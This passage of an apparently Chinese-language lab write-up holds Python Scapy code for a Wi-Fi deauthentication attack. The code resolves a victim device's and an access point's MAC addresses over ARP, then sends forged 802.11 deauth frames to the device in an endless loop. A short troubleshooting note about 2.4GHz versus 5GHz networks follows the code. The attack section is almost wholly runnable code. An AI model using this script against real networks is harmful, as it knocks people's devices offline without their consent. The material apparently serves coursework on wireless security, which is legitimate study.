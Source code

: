 ```python
        return answered_list[0][1].hwsrc
    else:
        return None

def disconnect_user(mac_address, access_point, interface):
    # 构造取消认证数据包：
    # addr1：目标设备的MAC地址
    # addr2/addr3：AP的MAC地址
    packet = RadioTap() / Dot11(addr1=mac_address, 
                                addr2=access_point, 
                                addr3=access_point) / Dot11Deauth(reason=7)
    # 发送数据包，这里发送100个数据包，发送间隔0.01秒
    sendp(packet, inter=0.01, count=100, iface=interface, verbose=1)

def main():
    # 指定受害者设备的IP地址
    device_ip = '192.168.25.136'
    # 通过获取默认网关获取AP的IP地址
    router_ip = getting_ip_of_access_point()
    # 无线网卡接口名称
    interface = 'wlan0mon'
    
    # 通过ARP请求获取AP和受害者设备的MAC地址
    mac_address_access_point = get_mac_address(router_ip)
    mac_address_device = get_mac_address(device_ip)
    
    print("MAC Address of Access Point: ", mac_address_access_point)
    print("MAC Address of Device: ", mac_address_device)
    print("Starting Deauthentication Attack on Device: ", mac_address_device)
    
    # 发起Deauthentication攻击
    while(True):
        disconnect_user(mac_address_device, mac_address_access_point, interface)

if __name__ == "__main__":
    main()
```

当运行代码发现没有获取到 route 的 ip 和 mac 时,出现下面的情况：

![](./img/exp3-2代码未切换到2.4.png)

可能是因为连接了 5GHz 网络，重新将两台设备连接进入 2.4GHz 的网络即可正常获取到 IP 和 MAC 地址,
正常运行的结果如下：

![](./img/exp3-2代码运行效果.png)
